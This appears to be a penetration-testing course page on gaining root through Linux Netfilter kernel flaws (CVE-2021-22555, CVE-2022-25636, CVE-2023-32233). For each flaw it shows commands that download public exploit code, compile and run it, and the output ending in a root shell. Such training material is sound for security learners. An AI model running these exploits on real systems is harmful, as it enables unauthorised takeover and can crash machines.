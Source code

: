 # Netfilter

`Netfilter` is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. `Netfilter` is also called the software layer in the Linux kernel. When network packets are received and sent, it initiates the execution of other modules such as packet filters. These modules can then intercept and manipulate packets. This includes the programs like `iptables` and `arptables`, which serve as action mechanisms of the `Netfilter` hook system of the IPv4 and IPv6 protocol stack.

This kernel module has three main functions:

1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)

When the module is activated, all IP packets are checked by the `Netfilter` before they are forwarded to the target application of the own or remote system. In 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)), 2022 ([CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)), and also in 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)), several vulnerabilities were found that could lead to privilege escalation.

Many companies have preconfigured Linux distributions adapted to their software applications or vice versa. This gives the developers and administrators, metaphorically speaking, a "dynamic basis" that is difficult to replace. This would require either adapting the system to the software application or adapting the application to the newer system. Depending on the size and complexity of the application, this can take a great deal of time and effort. This is often why so many companies run older and not updated Linux distributions in production.

Even if the company uses virtual machines or containers like Docker, these are built on a specific kernel. The idea of isolating the software application from the existing host system is a good step, but there are many ways to break out of such a container.

### **CVE-2021-22555**

Vulnerable kernel versions: 2.6 - 5.11

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```shell-session
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

### **CVE-2022-25636**

A recent vulnerability is [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) and affects Linux kernel 5.4 through 5.6.10. This is `net/netfilter/nf_dup_netdev.c`, which can grant root privileges to local users due to heap out-of-bounds write. `Nick Gregory` wrote a very detailed [article](https://nickgregory.me/post/2022/03/12/cve-2022-25636/) about how he discovered this vulnerability.

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

### **CVE-2023-32233**

This vulnerability exploits the so called `anonymous sets` in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temporary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (`Use-After-Free`) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the `cleared out` anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain `root` privileges.

### **Proof-Of-Concept**

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

### **Exploitation**

```shell-session
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```

{% hint style="warning" %}
Please keep in mind that these exploits can be very unstable and can break the system.
{% endhint %}
